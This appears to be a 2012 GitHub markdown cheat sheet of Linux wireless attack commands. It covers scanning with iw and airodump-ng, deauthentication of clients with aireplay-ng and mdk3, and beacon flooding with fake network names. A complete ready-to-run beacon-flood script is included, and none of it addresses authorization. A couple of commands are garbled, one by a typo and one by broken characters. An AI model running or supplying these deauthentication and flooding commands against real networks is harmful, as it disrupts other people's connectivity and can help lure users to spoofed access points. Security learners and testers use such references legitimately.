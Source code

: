 # Aircrack and Other Wireless Tools

A short list of some things you can do with wireless on a linux box. Have fun.

> [!WARNING]
> This information was written in 2012. It probably needs some updating.

## Determine Modes your NIC is capable of

```bash
airmon-ng (find PHY# for your NIC)
iw phy phy1 info | grep â€“A8 modes
```

## Passive Scan (Should not generate any frames)

```bash
iw dev wlan0 scan passive | grep SSID
```

## Active Scan

```bash
iw dev wlan0 scan | grep SSID
airmon-ng start wlan0
airodump-ng mon0
iwconfig wlan0 channel #
iwconfig wlan0 essid <ssid>
iwconfig wlan0 mode managed
```

## Deauthorization

```bash
iwconfig mon0 channel #
aireplay-ng -0 1 -a 00:14:6C:7E:40:80 -c 00:0F:B5:34:30:30 ath0
```

- -0 means deauthentication
- 1 is the number of deauths to send (you can send multiple if you wish); 0 means send them continuously
- -a 00:14:6C:7E:40:80 is the MAC address of the access point
- -c 00:0F:B5:34:30:30 is the MAC address of the client to deauthenticate; if this is omitted then all clients are deauthenticated
- ath0 is the interface name

## Deauthorization with MDK3

```bash
airmon-ng start wlan0
dk3 mon0 d
```

or

```bash
mdk3 mon0 d -w whitelist (deauth everything not listed in file)
```

or

```bash
mdk3 mon0 d -b blacklist (deauth everything listed in file)

d - deauthorization mode
w - whitelist
b - blacklist
```

## Broadcast Network Names with MDK3

```bash
airmon-ng start wlan0
mdk3 mon0 b -c 11 -f ssid_names
```

- b - beacon flood mode
- c - channel
- f - text file with ssid names

Everything you need to run a beacon flood in one script.

```bash
networks=(
"FreeWifi"
"FBI Van #12"
"Customer Wireless"
"Visitors"
"ATTWifi"
"Verizon Hotspot"
"l33t haxor net"
)

if [ -f ssid_names ]
then
echo -e "Deleting list of network names"
rm -f ssid_names
fi

echo -e "Creating list of network names"
for i in "${networks[@]}"
do
echo $i >> ssid_names
done

if [[ -n $(airmon-ng | grep mon0) ]]
then
echo -e "Mon0 interface exists"
else
echo -e "Starting AirMon on wlan0"
airmon-ng start wlan0
fi

echo -e "Begin beacon flood on mon0"
mdk3 mon0 b -c 11 -f ssid_names
```

- [8 Linux Commands: To Find Out Wireless Network Speed, Signal Strength And Other Information]("http://www.cyberciti.biz/tips/linux-find-out-wireless-network-speed-signal-strength.html" )
- [aircrack-ng Deauthorize]("http://www.aircrack-ng.org/doku.php?id=deauthentication" )
- [airmon-ng]("http://www.aircrack-ng.org/doku.php?id=airmon-ng" )
- [iwconfig man page]("http://www.linuxcommand.org/man_pages/iwconfig8.html" )
- [iw command info]("http://wireless.kernel.org/en/users/Documentation/iw" )
